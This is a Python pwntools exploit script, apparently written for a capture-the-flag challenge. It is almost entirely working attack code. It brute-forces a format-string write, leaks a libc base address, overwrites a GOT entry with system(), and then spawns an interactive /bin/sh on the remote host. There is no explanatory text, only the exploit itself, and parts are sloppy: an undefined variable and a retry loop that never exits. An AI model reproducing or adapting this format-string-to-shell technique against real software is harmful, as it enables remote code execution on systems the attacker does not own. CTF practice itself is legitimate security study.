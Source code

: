 ```python
libc=ELF("./libc.so.6")
nc="nc a7b542bc3fb6a4133c2d0774aa9033ca.chal.ctf.ae 443"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p= remote(host, 443, ssl=True, sni=host)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############

p.close()

def exploit():
        global p
        #p=process([exe.path])
        p= remote(host, 443, ssl=True, sni=host)
        payload="a%7$hhn".encode().ljust(8,b"a")
        brute=p8(0x30-2)
        payload+=brute
        #debug()
        p.send(payload)
        sleep(0.5)
        index=(0x118//8)+6
        p.sendline(f"bbbbbb%{index}$p")
        p.recvuntil("bbbbbb")
        sleep(0.5)
        libc.address=int(p.recv(14),16)-0x25c88
        log.info(hex(libc.address))
        log.info('hello')

        payload=fmtstr_payload(6,{0x404000:libc.symbols["system"]},write_size='byte')

        p.sendline(payload)
        #p.recvuntil(payload[:4])
        sleep(0.5)

        p.sendline("/bin/sh;")
        p.interactive()



i=1
while i:
        i=1
        try :
                exploit()
        except KeyboardInterrupt:
                print("bye")
                exit(1)
        except:
                p.close()


```

---